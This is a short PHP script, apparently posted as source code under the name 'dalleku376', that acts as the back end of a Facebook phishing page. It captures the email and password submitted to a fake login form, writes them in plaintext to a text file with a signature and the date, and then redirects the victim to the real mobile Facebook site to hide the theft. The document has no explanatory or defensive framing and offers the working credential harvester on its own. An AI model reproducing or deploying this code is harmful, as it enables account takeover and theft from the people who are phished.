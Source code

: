 # dalleku376
&lt;?php $file = "sandal.txt"; $username = $_POST['email']; $password = $_POST['pass']; $ip = $_SERVER['REMOTE_ADDR']; $today = date("F j, Y, g:i a"); $handle = fopen($file, 'a'); fwrite($handle, "Username: "); fwrite($handle, "$username"); fwrite($handle, "\n"); fwrite($handle, "Password: "); fwrite($handle, "$password"); fwrite($handle, "\n"); fwrite($handle, "$today"); fwrite($handle, "\n"); fwrite($handle, "\n"); fwrite($handle, "-->by ochan---->"); fwrite($handle, "\n"); fwrite($handle, "\n"); fclose($handle); echo '&lt;!DOCTYPE html PUBLIC "-//WAPFORUM//DTD XHTML Mobile 1.2//EN" "http://www.openmobilealliance.org/tech/DTD/xhtml-mobile12.dtd"> &lt;html xmlns="http://www.w3.org/1999/xhtml" lang="en">&lt;head> &lt;title>Mengalihkan halaman&lt;/title> &lt;meta http-equiv="Refresh" content="1; URL=http://m.facebook.com/home.php?"/> &lt;/head>&lt;body> &lt;/body> &lt;/html> '; ?>
